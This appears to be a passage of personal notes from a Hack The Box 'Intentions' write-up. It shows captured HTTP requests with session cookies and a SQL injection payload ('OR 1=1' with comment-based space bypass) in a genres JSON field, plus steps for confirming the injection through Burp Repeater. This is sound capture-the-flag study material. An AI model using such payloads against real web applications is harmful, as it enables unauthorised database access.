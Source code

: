 ```
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: application/json
X-XSRF-TOKEN: eyJpdiI6ImpzdHZiaFIzTnVadzg4dko4bVg5bWc9PSIsInZhbHVlIjoiQWtLeXJUZG5LM0RQYTdGUXVIQTdVbGtqRXVPdUhTUU15TzY5SjRhRm1HZlJQK3ZjSVpqWk16d0tPdk5kc2xoajJtMmdmOFpyMUpOTFRxOGpsa2NFdE10dHMxWlhTcEk5REZhUmVuUTEybTRsNmI2c0loV3NhbFlmLzg1eG00Z2siLCJtYWMiOiIwNzI4OTc1MzY1NzE1MTdhNjRlYTYxZjk4ZDFmYjFkNDkyNjRmYWVkYTIzYWU0NjkzZjI1NWEyYWMzMTNkMmE0IiwidGFnIjoiIn0=
Content-Length: 34
Origin: http://intentions.htb
Connection: keep-alive
Referer: http://intentions.htb/gallery
Cookie: XSRF-TOKEN=eyJpdiI6ImpzdHZiaFIzTnVadzg4dko4bVg5bWc9PSIsInZhbHVlIjoiQWtLeXJUZG5LM0RQYTdGUXVIQTdVbGtqRXVPdUhTUU15TzY5SjRhRm1HZlJQK3ZjSVpqWk16d0tPdk5kc2xoajJtMmdmOFpyMUpOTFRxOGpsa2NFdE10dHMxWlhTcEk5REZhUmVuUTEybTRsNmI2c0loV3NhbFlmLzg1eG00Z2siLCJtYWMiOiIwNzI4OTc1MzY1NzE1MTdhNjRlYTYxZjk4ZDFmYjFkNDkyNjRmYWVkYTIzYWU0NjkzZjI1NWEyYWMzMTNkMmE0IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6ImN6UTd4TnQ0b1NwWHZnN2x6c25QRUE9PSIsInZhbHVlIjoiMTJUZEw2bkpTY1gwUmQzQXQxY0NtZ1BYOHlmbGRaWndSQzF6UW5Qc3h4Q1pJbmc5ODNoM2Fvd25wSTdDSmpEUDJuQ2lpMWdUczl6azhnT1dwWTBRUFNlS0VpN2tOZnpKVjRSQ1JYcXBDcm1jN2tUc0tIM2xNbERPUGNVVW00TmkiLCJtYWMiOiI3YzRiZTUzMjNhOTE4N2VjZGYwYjA3OTg0NzI1YzhmYWNhOTliZjg0NjI0N2MwN2Q3ODQ2NTRhNGUxMTY2MmUyIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vaW50ZW50aW9ucy5odGIvYXBpL3YxL2F1dGgvbG9naW4iLCJpYXQiOjE3NDM2ODU5NTMsImV4cCI6MTc0MzcwNzU1MywibmJmIjoxNzQzNjg1OTUzLCJqdGkiOiJjR1lEb1lmN25aNmsxR0xmIiwic3ViIjoiMjgiLCJwcnYiOiIyM2JkNWM4OTQ5ZjYwMGFkYjM5ZTcwMWM0MDA4NzJkYjdhNTk3NmY3In0.bNIUwwO6Toz5HRFNJfN0o-loTVhpSju69tEIxQYe_Yg
Priority: u=0

{"genres":"food,')/**/OR/**/1=1#"}
```
	- The feed page which calls the tags(genres) for these images to be shown in the 
		```bash
GET /api/v1/gallery/user/feed HTTP/1.1
Host: intentions.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
X-XSRF-TOKEN: eyJpdiI6IkErQWtDZDl2NGRvZUdUMkc2MlJNUXc9PSIsInZhbHVlIjoia3l0Z0VXaVdndzl2eGZuSmJsVno3eFJ5MmRjUmhBeXNWSDdLYnZXOHpSbnV2aUZ5TWEyamRJL0lvbU5OMGtsSWFWSkEwTG9rczZ3aitJRzhTbWNsUzhwMnVFQnFjUzcyelVWTmhVOE1TSjRwOUJ0eW53SU91SjN4cTNFREtPMDIiLCJtYWMiOiJjYzUzM2Q4YTI3ZGNjZmFmMjE1Y2VjMjYwYWExODBjMTYwNGQwZGNiMmIyOGVjYzk5NDYyMTVhYmU4NjliNzJlIiwidGFnIjoiIn0=
Connection: keep-alive
Referer: http://intentions.htb/gallery
Cookie: XSRF-TOKEN=eyJpdiI6IkErQWtDZDl2NGRvZUdUMkc2MlJNUXc9PSIsInZhbHVlIjoia3l0Z0VXaVdndzl2eGZuSmJsVno3eFJ5MmRjUmhBeXNWSDdLYnZXOHpSbnV2aUZ5TWEyamRJL0lvbU5OMGtsSWFWSkEwTG9rczZ3aitJRzhTbWNsUzhwMnVFQnFjUzcyelVWTmhVOE1TSjRwOUJ0eW53SU91SjN4cTNFREtPMDIiLCJtYWMiOiJjYzUzM2Q4YTI3ZGNjZmFmMjE1Y2VjMjYwYWExODBjMTYwNGQwZGNiMmIyOGVjYzk5NDYyMTVhYmU4NjliNzJlIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6Ii9nNE0yMU84eWlSL1c5aXp5SzFTWGc9PSIsInZhbHVlIjoiV1BBM0drWWpRenNsdGN3WCtzaUNYRTB6eS8yV1pBaU5uSDNmRktYTG9HSTBmSmdueWpHMU5CTy9tSEFkZjhoakcwdko0a3VVeGtScUZEc0xsUk1OSFlHM2syRFlIY1dqWnZlNXZ1WGlES3BqeVFBcW41bjhMQzNnK25mNmo4NFoiLCJtYWMiOiIwNTFmMmQ1NTEwOTM3ZDRjNjJjNjcyMWRlYTEzNzFkMDE0YTYyYzY5MjRiZDA0Y2UxNWUwNzc4ZWFiZmUwNGYzIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vaW50ZW50aW9ucy5odGIvYXBpL3YxL2F1dGgvbG9naW4iLCJpYXQiOjE3NDM2ODU5NTMsImV4cCI6MTc0MzcwNzU1MywibmJmIjoxNzQzNjg1OTUzLCJqdGkiOiJjR1lEb1lmN25aNmsxR0xmIiwic3ViIjoiMjgiLCJwcnYiOiIyM2JkNWM4OTQ5ZjYwMGFkYjM5ZTcwMWM0MDA4NzJkYjdhNTk3NmY3In0.bNIUwwO6Toz5HRFNJfN0o-loTVhpSju69tEIxQYe_Yg
```
	- These pages can be caught earlier in BurpSuite and sent to Repeater to enumerate the previous step this way for better understanding
		- When we update our input to the genre
		- the feed will update and give the output
			- if nothing, sql error
			- if only the genre we provided, command is not working (as shown earlier with # only)
			- If feed shows all images (even though we have selected only food) when we do or 1=1, injection is working
```